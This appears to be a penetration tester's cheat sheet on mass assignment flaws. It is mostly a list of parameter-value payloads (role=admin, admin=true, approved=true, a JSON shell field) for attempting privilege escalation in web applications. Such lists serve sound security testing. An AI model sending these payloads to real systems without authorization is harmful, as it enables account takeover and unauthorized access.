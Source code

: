 # MassAssignment (Or Autobinding) 

Best results is to investigate all the pages of the app looking for patterns in parameter names. For example, if other fields are user_name and user_email, then possible candidates for Mass Assignment might be user_role and user_group.
Look at documentation and any other 

These are common attributes for user accounts useful in privilege escalation 
enabled=true
processed=true
approved=true
approval=true
user_approval=true
onboard=true
user_onboarded=true
user_onboarded=1
enabled=1
status=enabled
user_status=enabled

These are parameter name value pairs to attempt privilege escalation via mass assignment

role=admin
role=site_admin
role=site_edit
group=admins
group=administrators
group=vendors
group=admin
group=
groups=[admin,user_management,editor,
roles might be an array:
roles=[add_user,delete_user, edit_user,create_user,view_user,edit_content]
role=content_owner

role=0
..
role=9

admin=true

admin=1

user_role=0

user_role=9

user_role=admin

user_role=administrator

user_role=moderator

user_role=

administrator=true

user_access_level=0

access_level
accessLevel
userAccessLevel

user_access

useraccess

user-access

user.access

user.accesslevel

user-accesslevel
ual



If JSON is used these are extra params that have been found in vulnerability reports:
"shell":"/bin/bash"

Exampe from https://www.silver-peak.com/sites/default/files/advisory/silver_peak_security_advisory_mass_assignment_vulnerability.pdf
{"users":{"basic":{"self":"basic","enable":true,"gid":0,"password":"[SNIP]","
shell":"/bin/bash"}},[SNIP
other users]}}

Other:
{"user_name":"inons","age":24,"credit_balance":10}

